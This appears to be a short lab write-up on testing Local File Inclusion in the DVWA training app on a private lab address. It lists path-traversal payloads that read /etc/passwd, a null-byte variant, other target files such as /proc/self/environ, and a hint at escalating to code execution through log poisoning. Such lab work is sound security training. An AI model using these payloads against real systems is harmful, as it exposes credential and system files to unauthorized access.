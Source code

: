 # Local File Inclusion (LFI)

## 🎯 Objective
Test if the web application is vulnerable to **Local File Inclusion** by manipulating the file path to include local server files.

---

## 🧱 Target Info
- **Target IP:** 192.168.56.105  
- **Service:** HTTP (Port 80)  
- **App Used:** DVWA (File Inclusion Module)  
- **Tools:** Browser, Burp Suite (optional)

---

## 🧪 Steps

### 🔹 Step 1: Access the File Inclusion Page
Navigate to:
```
http://192.168.56.105/dvwa/vulnerabilities/fi/
```
Use **low security** level in DVWA.

---

### 🔹 Step 2: Attempt Basic LFI Payload  
Try changing the `page` parameter to include `/etc/passwd`:
```
http://192.168.56.105/dvwa/vulnerabilities/fi/?page=../../../../etc/passwd
```
➡️ If the file contents appear, the app is vulnerable to LFI.

---

### 🔹 Step 3: Test with Null Byte Injection (for old PHP versions)
Some older systems may need a null byte:
```
?page=../../../../etc/passwd%00
```

---

### 🔹 Step 4: Use Burp Suite for Testing
Use Burp to:
- Intercept the request
- Send to Repeater
- Test deeper traversal like:
```
?page=../../../../../../../../etc/passwd
```

---

## 🧠 Notes
- You can include other local files such as:
  - `/proc/self/environ`
  - `../../../../../../windows/win.ini` (on Windows)
- Combine with **RCE** via log poisoning or PHP session tricks.

---

## ✅ Conclusion
```
The application includes files from user input without validation, making it vulnerable to LFI.  
Attackers can read sensitive files, and in advanced cases, achieve **Remote Code Execution** (RCE).
```
